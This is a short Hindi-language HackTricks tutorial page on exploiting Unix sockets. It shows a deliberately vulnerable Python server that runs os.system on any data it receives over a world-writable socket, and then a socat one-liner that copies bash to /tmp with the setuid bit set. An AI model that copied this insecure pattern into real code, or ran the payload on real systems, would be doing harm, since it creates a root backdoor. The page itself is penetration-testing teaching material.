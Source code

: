 {{#include ../../banners/hacktricks-training.md}}

## Python के साथ सॉकेट बाइंडिंग उदाहरण

निम्नलिखित उदाहरण में एक **यूनिक्स सॉकेट बनाया गया है** (`/tmp/socket_test.s`) और जो कुछ भी **प्राप्त** होता है वह `os.system` द्वारा **निष्पादित** किया जाएगा। मुझे पता है कि आप इसे वास्तविक जीवन में नहीं पाएंगे, लेकिन इस उदाहरण का लक्ष्य यह देखना है कि यूनिक्स सॉकेट का उपयोग करने वाला कोड कैसा दिखता है, और सबसे खराब स्थिति में इनपुट को कैसे प्रबंधित किया जाए।
```python:s.py
import socket
import os, os.path
import time
from collections import deque

if os.path.exists("/tmp/socket_test.s"):
os.remove("/tmp/socket_test.s")

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("/tmp/socket_test.s")
os.system("chmod o+w /tmp/socket_test.s")
while True:
server.listen(1)
conn, addr = server.accept()
datagram = conn.recv(1024)
if datagram:
print(datagram)
os.system(datagram)
conn.close()
```
**कोड को चलाएँ** python का उपयोग करते हुए: `python s.py` और **जाँच करें कि सॉकेट कैसे सुन रहा है**:
```python
netstat -a -p --unix | grep "socket_test"
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
unix  2      [ ACC ]     STREAM     LISTENING     901181   132748/python        /tmp/socket_test.s
```
**शोषण**
```python
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/tmp/socket_test.s
```
{{#include ../../banners/hacktricks-training.md}}

